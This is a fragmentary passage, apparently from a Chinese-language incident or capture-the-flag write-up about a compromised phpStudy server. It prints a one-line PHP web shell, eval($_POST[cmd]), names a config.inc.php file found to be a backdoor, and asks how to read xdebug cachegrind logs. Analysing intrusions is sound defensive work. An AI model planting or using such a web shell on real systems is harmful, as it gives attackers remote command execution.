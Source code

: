     <?php
    eval($_POST[cmd]);
    ?>  
    
a href=./config.inc.php，看修改日期后确认是大马。

原先存在相似的文件名称，为：```D:\phpStudy\WWW\MyAdmin\setup\frames\config.inc.php```
<br>
<br>
<br>
*xdebug输出的 cachegrind 文件不知如何分析？不胜赐教！文件内容大同小异，如下：*
<div align="center"><img src="image/2017-game-cache1.jpg" width="300"/></div>
能看到利用php的操作: